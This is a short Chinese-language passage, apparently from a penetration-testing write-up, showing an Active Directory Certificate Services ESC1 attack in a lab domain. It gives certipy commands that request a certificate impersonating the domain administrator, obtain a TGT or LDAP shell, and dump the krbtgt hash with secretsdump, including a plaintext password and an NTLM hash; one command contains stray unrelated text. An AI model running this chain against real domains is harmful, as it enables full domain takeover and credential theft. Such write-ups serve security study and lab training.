 [![](assets/1708508972-f4e96579c8393510ff57d08b95c41e17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220165523-c8b5b7fa-cfcd-1.png)

请求域管证书  
target 为 ADCS 证书服务器的 ip，template，ca 要和上面的对的上

```plain
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -target 192.168.142.21 -ca penson-ADCS-CA -template PensonESC1 -upn administrator@penson.org
```

[![](assets/1708508972-2e7747e341548672af08a19f78bf8e81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220165537-d0cbe086-cfcd-1.png)

拿 TGT

```plain
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.21 -scheme ldap  //ldap

certipy auth -pfx administrator.pfx -dc-ip 192.168.142.21 -ldap-shell  //ldaps


导出 hash
方式一：
secretsdump.py penson.org/administrator@192.168.142.20 -just-dc-user PENSON/krbtgt -hashes aad3b435b51404eeaad3b435b51404ee:e1342d6f7b624f52d60008e44be76aa4
方式二：
export KRB5CCNAME=administrator.ccache
python3 secretsdump.py -k -no-pass AD.penson.org -just-dc-user krbtgt -target 192.168.142.20 -debug
```
